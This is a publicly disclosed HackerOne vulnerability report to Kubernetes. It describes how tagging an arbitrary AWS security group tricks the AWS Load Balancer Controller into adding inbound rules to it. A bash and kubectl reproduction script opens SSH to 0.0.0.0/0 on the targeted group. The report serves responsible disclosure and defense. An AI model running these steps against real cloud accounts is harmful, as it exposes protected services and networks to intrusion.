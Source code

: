 # AWS Load Balancer Controller can be used by an attacker to modify rules of any Security Group that they are able to tag

## Report Details
- **Report ID**: 1238482
- **URL**: https://hackerone.com/reports/1238482
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2021-06-19T22:14:27.232Z
- **Disclosed**: 2022-06-02T00:49:36.613Z

## Reporter
- **Username**: t0rr3sp3dr0
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: kubernetes

## Vulnerability Information
Report Submission Form

## Summary:
The IAM Policy of AWS Load Balancer Controller allows it to modify rules of any SG on the AWS Account. This is legitimately used to manage Security Groups created by the controller when an Ingress resource doesn’t explicit a SG. Annotations can be added to the Ingress to change inbound rules of the managed SG.

An attacker with access to some namespace on a K8s cluster with AWS Load Balancer Controller properly installed and configured, is able to trick the controller into modifying rules of any SG that the attacker is able to tag.

AWS Load Balancer Controller uses three tags to associate a SG on AWS to the supposed managed SG created for an ALB: `elbv2.k8s.aws/cluster`, `ingress.k8s.aws/stack`, and `ingress.k8s.aws/resource`. When there are multiple SGs that match the expected tag values, the controller attaches the first one returned by the AWS SDK to the ALB and deletes the other ones. The API call returns SGs sorted by their respective ids.

If an arbitrary SG is tagged with the values expected by AWS Load Balancer Controller for some Ingress before its creation, as soon the Ingress is created the controller thinks that the targeted SG is a managed one. This allows an attacker to use annotations `alb.ingress.kubernetes.io/listen-ports` and `alb.ingress.kubernetes.io/inbound-cidrs` on the Ingress resource to modify inbound rules of unmanaged SGs, what should not be possible.

## Kubernetes Version:
version.Info{Major:"1", Minor:"20+", GitVersion:"v1.20.4-eks-6b7464", GitCommit:"6b746440c04cb81db4426842b4ae65c3f7035e53", GitTreeState:"clean", BuildDate:"2021-03-19T19:33:03Z", GoVersion:"go1.15.8", Compiler:"gc", Platform:"linux/amd64"}

## Component Version:
AWS Load Balancer Controller v2.2.0

## Steps To Reproduce:

```bash
VPC_ID=vpc-00123456789abcdef
CLUSTER_NAME=kind

# Developer legitimatly creates a security group to protect some service
UNMANAGED_SG_ID=$(aws ec2 create-security-group --description unmanaged-sg --group-name unmanaged-sg --vpc-id ${VPC_ID} | jq -r .GroupId)

# Attacker tags the unmanaged security group with values expected by the AWS Load Balancer Controller
aws ec2 create-tags --resources ${UNMANAGED_SG_ID} --tags "Key=elbv2.k8s.aws/cluster,Value=${CLUSTER_NAME}" "Key=ingress.k8s.aws/stack,Value=echoserver/echoserver" "Key=ingress.k8s.aws/resource,Value=ManagedLBSecurityGroup"

# Attacker creates an Ingress with a combination of name, namespace, and cluster that matches the tags added to the unmanaged SG
# listen-ports and inbound-cidrs annotations are set with values related to the inbound rule that will be created on the security group
aws eks update-kubeconfig --name ${CLUSTER_NAME}
cat <<- EOF | kubectl apply -f -
apiVersion: v1
kind: Service
metadata:
  namespace: echoserver
  name: echoserver
spec:
  selector:
    app: echoserver
  ports:
    - name: http
      protocol: TCP
      port: 8080
---
apiVersion: extensions/v1beta1
kind: Ingress
metadata:
  namespace: echoserver
  name: echoserver
  annotations:
    kubernetes.io/ingress.class: alb
    alb.ingress.kubernetes.io/target-type: ip
    alb.ingress.kubernetes.io/listen-ports: '[{"HTTP":22}]'
    alb.ingress.kubernetes.io/inbound-cidrs: 0.0.0.0/0
spec:
  rules:
    - host: echoserver.example.com
      http:
        paths:
          - backend:
              serviceName: echoserver
              servicePort: 8080
EOF
sleep 15

# Inbound rules were created on the unmanaged security group, allowing ingress SSH traffic (TCP Port 22) from anywhere (CIDR 0.0.0.0/0)
aws ec2 describe-security-groups --group-id ${UNMANAGED_SG_ID}
```

## Impact

An attacker is capable of gaining access to all network resources protected by some Security Group and is also able to expose critical services to the Internet if they are on a public subnet. A denial of service attack can be performed by blocking traffic of legitimate clients to resources with SGs attached.

## Attachments
No attachments
